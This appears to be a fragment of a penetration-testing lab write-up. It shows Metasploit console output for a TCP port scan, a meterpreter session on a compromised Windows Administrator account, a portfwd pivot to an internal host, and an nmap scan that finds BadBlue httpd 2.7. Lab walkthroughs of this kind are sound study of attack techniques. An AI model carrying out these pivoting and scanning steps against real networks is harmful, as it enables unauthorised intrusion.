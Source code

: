 ```
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   THREADS      1                yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.0.29.71
RHOSTS => 10.0.29.71
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 1-100
PORTS => 1-100
msf6 auxiliary(scanner/portscan/tcp) > exploit

[+] 10.0.29.71:           - 10.0.29.71:80 - TCP OPEN
[*] 10.0.29.71:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf6 auxiliary(scanner/portscan/tcp) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.3:4444 -> 10.0.18.166:49226 (10.0.18.166)
```

```
msf6 auxiliary(scanner/portscan/tcp) > sessions 1
[*] Starting interaction with 1...

meterpreter > portfwd add -l 1234 -p 80 -r 10.0.29.71
[*] Local TCP relay created: :1234 <-> 10.0.29.71:80
```

```
root@attackdefense:~# nmap -sV -p 1234 localhost
Starting Nmap 7.91 ( https://nmap.org ) at 2023-07-19 17:58 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000060s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
1234/tcp open  http    BadBlue httpd 2.7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.79 seconds
```
